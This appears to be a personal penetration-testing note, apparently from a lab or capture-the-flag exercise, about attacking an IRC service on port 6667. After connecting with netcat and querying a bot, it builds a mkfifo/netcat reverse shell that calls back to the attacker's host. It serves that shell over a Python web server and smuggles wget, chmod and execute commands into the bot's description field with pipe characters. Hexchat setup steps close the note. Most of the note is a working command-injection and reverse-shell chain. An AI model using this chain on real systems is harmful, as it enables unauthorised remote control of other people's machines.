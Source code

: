 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

```bash - kali
nc -nvv $TARGET 6667
```

If getting disconnects with this method, try [[Port 6667 - IRC#Hexchat]].

```bash - kali
nick kali
```

```bash - kali
user kali 8 * kali
```

```bash - kali
list
```

```bash - kali
join #mailAssistant
```

```bash - kali
privmsg spaghetti_BoT !command
```

```bash - kali
privmsg spaghetti_BoT !about
```

```bash - kali
echo '#!/bin/bash \nrm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $KALI 443 >/tmp/f' > Shelly.sh
```

```bash - kali
python3 -m http.server 80
```

![[rlwrap]]

```bash - kali
privmsg spaghetti_BoT email:kali@kali.lan description:test |wget $KALI:80/Shelly.sh
```

```bash - kali
privmsg spaghetti_BoT email:kali@kali.lan description:test |chmod +x Shelly.sh
```

```bash - kali
privmsg spaghetti_BoT email:kali@kali.lan description:test |./Shelly.sh
```

#### Hexchat
```bash - kali
sudo apt-get install hexchat
```

Add > Edit

![[Pasted image 20220320171011.png | 600]]

Once connected, go to Server > Channel list.

Enter a wildcard `*` in the search bar and hit search.

* May have to decrease the "channels with" value to 1.

![[Pasted image 20220320171419.png | 600]]


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
